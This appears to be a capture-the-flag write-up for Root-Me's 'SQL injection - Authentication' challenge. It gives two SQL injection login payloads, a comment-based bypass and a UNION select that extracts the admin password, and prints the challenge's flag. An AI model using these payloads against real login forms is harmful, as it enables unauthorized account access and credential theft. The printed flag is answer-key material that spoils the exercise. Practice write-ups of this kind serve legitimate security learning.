 ```yaml
---
title: SQL injection - Authentication
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, SQL injection]
---
```


* Points: 30
* Link: [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

## Statement

> Retrieve the administrator password

## Solution

```
username: admin' --
password: <any dump things here>
```

Then it will show admin's information, but password is in bullet. View source code to get it.

The flag is
```
t0_W34k!$
```

Another way is
```
username: admin
password: ' union select password, username from users where username = 'admin
```

**Note**: ```username``` is ```admin```. ```administrator``` will not work!